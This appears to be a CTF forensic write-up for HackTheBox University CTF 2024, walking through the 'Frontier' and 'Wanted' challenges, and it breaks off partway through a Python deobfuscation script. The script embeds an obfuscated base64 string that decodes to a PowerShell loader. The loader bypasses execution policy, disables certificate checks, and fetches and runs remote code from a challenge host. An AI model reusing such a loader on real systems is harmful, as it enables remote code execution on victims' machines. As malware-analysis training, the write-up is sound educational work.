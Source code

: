 ```yaml
---
title: HackTheBox University CTF 2024 - Forensic Writeups
published: 2024-12-17
description: '3/4 Forensic Write Up on  HackTheBox University CTF 2024'
image: ''
tags: [Write Up, CTF, Forensic]
category: 'Write Up'
draft: false 
---
```


## Foren/Frontier
94.237.54.116:52327, access the docker url
![image](https://github.com/user-attachments/assets/7436fe89-3fd9-42f4-a7bf-efba75220510)
base64 encoded flag in the bash history

## Foren/Wanted
![image](https://github.com/user-attachments/assets/934a70b8-5b88-4683-9640-fcf2c5f30bee)

Url decode
![image](https://github.com/user-attachments/assets/f7b83bc5-0cfa-4bd3-969b-a5329bac14dc)

Decode vbscript
![image](https://github.com/user-attachments/assets/0a474caa-4b78-4c20-9ce4-a39824e5ce4f)

Donlot vbscript
![image](https://github.com/user-attachments/assets/0348e806-7a3e-44eb-a761-23deca0e084d)

This func is sus, its some arrenged base64 executed as payload, try to deobfuscate it and then decode

```
import base64
def descortinar(data, pattern, replacement):
    """
    Mimics the VBScript `descortinar` function to replace obfuscation patterns.
    """
    return data.replace(pattern, replacement)

# Obfuscated Base64-like string
latifoliado = (
    "U2V0LUV4ZWN1dGlvblBvbGljeSBCeXBhc3MgLVNjb3BlIFByb2Nlc3MgLUZvcmNlOyBbU3lzdGVtLk5ldC5TZd2FudGVkCgXJ2aWNlUG9pbnRNYW5hZ2VyXTo6U2VydmVyQ2VydGlmaWNhdGVWYWxpZGF0aW9uQ2FsbGJhY2sgPSB7JHRydWV9O1td2FudGVkCgTe"
    "XN0ZW0uTmV0LlNlcnZpY2VQb2ludE1hbmFnZXJdOjpTZWN1cml0eVByb3RvY29sID0gW1N5c3RlbS5OZXQuU2Vydmld2FudGVkCgjZVBvaW50TWFuYWdlcl06OlNlY3VyaXR5UHJvdG9jb2wgLWJvciAzMDcyOyBpZXggKFtTeXN0ZW0uVGV4dC5FbmNvZd2FudGVkCgGl"
    "uZ106OlVURjguR2V0U3RyaW5nKFtTeXN0ZW0uQ29udmVydF06OkZyb21CYXNlNjRTdHJpbmcoKG5ldy1vYmplY3Qgcd2FudGVkCg3lzdGVtLm5ldC53ZWJjbGllbnQpLmRvd25sb2Fkc3RyaW5nKCdodHRwOi8vd2FudGVkLmFsaXZlLmh0Yi9jZGJhL19d2FudGVkCgyc"
    "CcpKSkpd2FudGVkCgd2FudGVkCg"
)

parrana = "d2FudGVkCg"

# Step 1: Remove obfuscation patterns
decoded_data = descortinar(latifoliado, parrana, "")

# Step 2: Decode the Base64 string
def base64_decode(data):
    try:
```